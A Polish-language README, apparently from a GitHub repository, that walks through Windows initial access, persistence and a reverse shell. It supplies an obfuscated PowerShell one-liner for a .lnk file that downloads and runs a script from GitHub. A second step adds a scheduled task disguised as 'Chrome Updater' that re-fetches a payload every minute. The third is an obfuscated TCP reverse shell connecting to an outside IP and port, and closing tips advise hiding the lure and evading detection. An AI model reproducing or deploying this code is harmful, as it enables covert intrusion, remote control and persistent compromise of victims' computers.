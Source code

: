 

> Opis pokazujący na zdobycie revershella + persistance

## Krok 1 -  Initial Access

Wysyłamy plik ```.lnk```, który ściągnie skrypt ```b.ps1``` z CDN (w tym przypadku Github).
``` powershell
C:\Windows\System32\conhost.exe --headless powershell -c "$l='http'+'s://raw.githubusercontent.com/4ndrz3j/test-repo/main/b.ps1';(i''wR $l).content|i''E''x"
```
## Krok 2 - Dodanie zadania w Harmonogramie zadań

Skrypt ```b.ps1``` dodaje zadanie w harmonogramie zadań windowsa, pod nazwą ```Chrome Updater```, które odpala się co minutę. Wywoływane jest analogiczne polecenie jak w pliku ```.lnk```, z różnicą że ściągany i uruchamiany jest reverse shell z pliku ```c.ps1``

``` powershell
$Action = New-ScheduledTaskAction -Execute "C:\Windows\System32\conhost.exe" -Argument "--headless powershell -c `"`$l='http'+'s://raw.githubusercontent.com/4ndrz3j/test-repo/main/c.ps1';(i''wR `$l).content|i''E''x`""
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddMinutes(1) -RepetitionInterval (New-TimeSpan -Minutes 1)
Register-ScheduledTask -Action $Action -Trigger $Trigger -TaskName "Chrome Updater"
```

## Krok 3 - Revershell

Revershell jest delikatnie zobfuskowanym TcpOnlinerem. Za każdym razem skrypt jest ściągany z zewnętrznego źródła, więc mamy możliwość jego edycji, celem zmieniania adresu/portu/działanai skryptu.

```powershell

$ip = "192.168.209.47"
$port = "8000"
 
$c= New-Obje''ct System.Net.Sockets.TCPClient($ip,$port);$s= $c.GetStream();[byte[]]$b= 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d= (N''e''w-O''b''j''e''c''t -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sendback = (iex ". { $d} 2>&1" | Out-String );$sendback2 = $sendback + 'PWND'+' ' + (p''w''d).Path + '->';$sb= ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sb,0,$sb.Length);$stream.Flush()};$client.Close()
```

## Protips

- Warto zmienić ikonkę skrótu
- [Biblia Obfuskacji powershell](https://github.com/4ndrz3j/test-repo/new/main?filename=README.md)
- [Lolbas](https://lolbas-project.github.io/#) - można użyć innego programu niż ```conhost.exe```
